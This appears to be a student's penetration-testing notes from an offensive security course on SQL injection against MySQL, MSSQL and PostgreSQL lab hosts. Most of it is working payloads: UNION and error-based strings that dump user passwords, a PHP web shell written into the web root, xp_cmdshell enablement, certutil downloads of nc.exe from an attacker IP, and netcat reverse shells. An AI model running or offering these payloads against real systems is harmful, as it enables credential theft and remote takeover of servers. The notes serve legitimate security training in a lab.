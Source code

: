 [SQLMap - Cheetsheat - HackTricks](https://book.hacktricks.xyz/pentesting-web/sql-injection/sqlmap)
[MySQL injection - HackTricks](https://book.hacktricks.xyz/pentesting-web/sql-injection/mysql-injection)
https://youtu.be/cx6Xs3F_1Uc?si=0xt_0UZibLEwjDk6

## SQL DB TYPES AND THEORY
MySQL and Microsoft SQL Server (MSSQL) most common
Identify the port using NMAP

### MYSQL
sudo nmap -T5 --top-ports=500 -sS 192.168.238.16

Nmap scan report for 192.168.238.16
Host is up (0.045s latency).
Not shown: 496 closed tcp ports (reset)
PORT     STATE SERVICE
22/tcp   open  ssh
3306/tcp open  mysql              ----HERE IS THE PORT #
8000/tcp open  http-alt
8080/tcp open  http-proxy

After seeing the port, go to mysql if username/password provided

$ mysql -u root **-p'root'** -h 192.168.238.16 -P 3306
**(-p = Password)  (-P= Port)**

MySQL [(none)]> 

SIMPLE VERSION/SYSTEM AND DATABASE INFO
-MySQL [(none)]> select version ();
+------------+
| version () |
+------------+
| 8.0.21     |
+------------+
-MySQL [(none)]> select system_user();
+---------------------+
| system_user()       |
+---------------------+
| root@192.168.45.181 |
+---------------------+
-MySQL [(none)]> show databases;
+--------------------+
| Database           |
+--------------------+
| information_schema |
| mysql              |
| performance_schema |
| sys                |
| test               |
+--------------------+

Sample of using finding an authentication string from an user
![[Pasted image 20230930080712.png]]

### MSSQL 
Impacket
Run Nmap to identify the service
┌──(hollacosta㉿kali1)-[~]
└─$ sudo nmap -T5 --top-ports=500 -sS 192.168.238.18                      
PORT     STATE SERVICE
53/tcp   open  domain
80/tcp   open  http
88/tcp   open  kerberos-sec
135/tcp  open  msrpc
139/tcp  open  netbios-ssn
389/tcp  open  ldap
445/tcp  open  microsoft-ds
464/tcp  open  kpasswd5
593/tcp  open  http-rpc-epmap
636/tcp  open  ldapssl
**1433/tcp open  ms-sql-s**    -------HERE IS MSSQL
3268/tcp open  globalcatLDAP
3269/tcp open  globalcatLDAPssl

└─$ impacket-mssqlclient Administrator:Lab123@192.168.238.18 -windows-auth
Impacket v0.9.22 - Copyright 2020 SecureAuth Corporation


Encryption required, switching to TLS
 ENVCHANGE(DATABASE): Old Value: master, New Value: master
 ENVCHANGE(LANGUAGE): Old Value: , New Value: us_english
ENVCHANGE(PACKETSIZE): Old Value: 4096, New Value: 16192
INFO(SQL01\SQLEXPRESS): Line 1: Changed database context to 'master'.
 INFO(SQL01\SQLEXPRESS): Line 1: Changed language setting to us_english.
ACK: Result: 1 - Microsoft SQL Server (150 7208) 
 Press help for extra shell commands
SQL> 

SQL> SELECT @@version;
Microsoft SQL Server 2019 (RTM) - 15.0.2000.5 (X64) 
        Sep 24 2019 13:48:23 
        Copyright (C) 2019 Microsoft Corporation
        Express Edition (64-bit) on Windows Server 2022 Standard 10.0 Build 20348: ) (Hypervisor)

SQL> SELECT name FROM sys.databases; -SHOWS DBS
name                                                                                         
master                                                                                       
tempdb                                                                                      
model                                                                                                
SQL> select * from offsec.dbo.users;    ---INFO ABOUT DB
username     password     

admin        lab          

guest        guest      

## SQL INJECTION ATTACKS
If you can use a ' at the end and receive a response, you can interact with the database
![[Pasted image 20230930093732.png]]

after finding the ' gets a response, you can use a cmd like this to find more information to interact further with it

offsec' OR 1=1 == //

![[Pasted image 20231001051716.png]]
' or 1=1 in **(select @@version)** -- //   -----**This is where the query goes!**

using a specific criteria will most likely provide you with the desired result
```
' or 1=1 in (SELECT password FROM users) -- //
```

![[Pasted image 20231001053044.png]]

being more specific would give you the information you desire (e.g. admin password)
```
' or 1=1 in (SELECT password FROM users WHERE username = 'admin') -- //
```
![[Pasted image 20231001053200.png]]


### UNION BASE SQL ATTACKS
some databases could be attacked using UNION SQL queries; The **UNION**[1](https://portal.offsec.com/courses/pen-200/books-and-videos/modal/modules/sql-injection-attacks/manual-sql-exploitation/union-based-payloads#fn1) keyword aids exploitation because it enables execution of an extra SELECT statement and provides the results in the same query, thus concatenating two queries into one statement. use this to see all the info for the users in the database

```
$query = "SELECT * from customers WHERE name LIKE '".$_POST["search_input"]."%'";
```

![[Pasted image 20231001054044.png]]

this could be use to determine the exact columns (if you get an error, you know you have exceeded the amount)
![[Pasted image 20231001054147.png]]

Use this command to enumerate the database. **use the % sign to retrieve ALL the information from the DB**
```
%' UNION SELECT database(), user(), @@version, null, null -- //
```

![[Pasted image 20231001054233.png]]

this cmd will give you an exact query info about the user (**no % use in this query since we know the specific info we are looking for**)
```
' UNION SELECT null, null, database(), user(), @@version  -- //
```
![[Pasted image 20231001054619.png]]

with this  cmd, we are attempting to enumerate the db
```
' union select null, table_name, column_name, table_schema, null from information_schema.columns where table_schema=database() -- //
```
![[Pasted image 20231001054924.png]]
with the next command, we are attempting to dump the user name, password and description
```
' UNION SELECT null, username, password, description, null FROM users -- //
```
![[Pasted image 20231001055033.png]]

### BLIND SQL INJECTIONS

### EXERCISES

![[Pasted image 20231029061347.png]]

#### Q5

```
' ORDER BY 1-- //
```
To identify columns.
![[Pasted image 20231004201438.png]]
![[Pasted image 20231004202641.png]]
![[Pasted image 20231004203231.png]]


<?php system($_GET['cmd']); ?>

' UNION SELECT null, null, null, null, "<?php system($_GET['cmd']);?>", null INTO OUTFILE "/var/www/html/webshell.php" -- //

![[Pasted image 20231004214100.png]]
### Q6
First identify which port is open

![[Pasted image 20231005200443.png]]
![[Pasted image 20231005200459.png]]

![[Pasted image 20231005200620.png]]
try every field available for injection, and if it doen't work, try every field in it using burp

![[Pasted image 20231005200358.png]]

![[Pasted image 20231005201451.png]]
no errors in **'ORDER%20BY%206--//**

'; COPY (select null) TO PROGRAM 'nc -e /bin/sh 192.168.45.181 4444'; --


CODE USE TO ACCESS THE MACHINE

### Q7


';EXEC sp_configure 'show advanced options', 1;--

';RECONFIGURE;--

';EXEC sp_configure "xp_cmdshell", 1;--

';RECONFIGURE;--

';EXEC xp_cmdshell "certutil -urlcache -f http://192.168.45.181/nc.exe c:/windows/temp/nc.exe";--

first start a listener in your kali

nc -nlpv 443

';EXEC xp_cmdshell "c:/windows/temp/nc.exe 192.168.45.181 443 -e cmd.exe";--

└─$ sqlmap -r r**eq.txt** --os-shell --batch   --file from the POST that you save


';EXEC sp_configure 'show advanced options', 1;--

';RECONFIGURE;--

';EXEC sp_configure "xp_cmdshell", 1;--

';RECONFIGURE;--

';EXEC xp_cmdshell "certutil -urlcache -f http://192.168.45.181/nc.exe c:\inetpub\wwwroot\nc.exe";--                PATH IS FROM THE SQL ERROR
                                               OPEN A HTTP SERVER FROM WHERE THE FILE IS

';EXEC xp_cmdshell -p c:\inetpub\wwwroot\nc.exe "c:\inetpub\wwwroot\nc.exe -e cmd.exe 192.168.45.181 443";--      